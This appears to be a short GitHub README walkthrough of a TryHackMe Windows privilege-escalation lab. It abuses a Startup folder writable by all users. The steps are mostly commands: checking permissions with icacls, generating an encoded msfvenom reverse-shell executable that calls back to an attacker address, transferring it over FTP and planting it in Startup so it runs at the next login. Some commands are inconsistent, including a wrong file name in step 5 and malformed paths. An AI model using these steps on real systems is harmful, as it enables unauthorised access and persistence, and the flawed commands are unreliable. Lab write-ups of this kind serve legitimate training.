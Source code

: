 # service-escalation-startup

*credit to THM* | https://tryhackme.com/room/windowsprivescarena

1) Run icacls.exe on C:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user> icacls "C:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`

[![Image of icacls](https://github.com/kam1n0/service-escalation-startup/blob/master/icacls.png)](#)

* Note that the *BUILTIN\Users* group has (F) *Full Access* permissions to the *Startup* directory.

2) Start *pyftpdlib* on Kali:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ python3 -m pyftpdlib -p 21 --write`

* Note: if pyftpdlib is not installed do the following:

[![Image of install](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/install.png)](#)

3) Generate shellcode and save as *startup.exe*:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9001 -e x86/shikata_ga_nai -f exe -o startup.exe`

4) Transfer *startup.exe* to windows victim machine:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> get startup.exe`

5) Place *startup.exe* in *C:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup*:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> cp filepermservice.exe C:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`

6) Start new session to get *Startup* programs to run and should have *reverse shell*
